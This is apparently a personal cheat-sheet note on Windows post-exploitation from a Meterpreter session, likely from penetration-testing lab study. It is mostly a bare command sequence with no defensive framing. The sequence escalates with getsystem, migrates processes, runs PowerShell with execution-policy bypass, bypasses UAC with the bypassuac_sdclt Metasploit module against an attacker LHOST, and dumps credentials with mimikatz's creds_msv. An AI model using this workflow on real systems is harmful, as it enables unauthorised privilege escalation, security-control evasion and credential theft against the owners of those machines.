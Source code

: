 ```yaml
---
tags:
---
```

# meterpreter priv-esc

```bash
# Post exploitation command flow
getsystem
ps
migrate 8044
getuid

shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```

[NtObjectManager](https://www.powershellgallery.com/packages/NtObjectManager/1.1.32)

In this example, `Get-NtTokenIntegrityLevel` returns `Medium`, meaning we have to bypass UAC

```bash
^Z
y
bg
search UAC
use exploit/windows/local/bypassuac_sdclt
show options
set SESSION 9
set LHOST 192.168.119.4
run
```

Now we can check our integrity level once again

```bash
shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```

Which returns `High` now

We can also load `mimikatz` from `meterpreter`

```bash
load kiwi
help
creds_msv
```
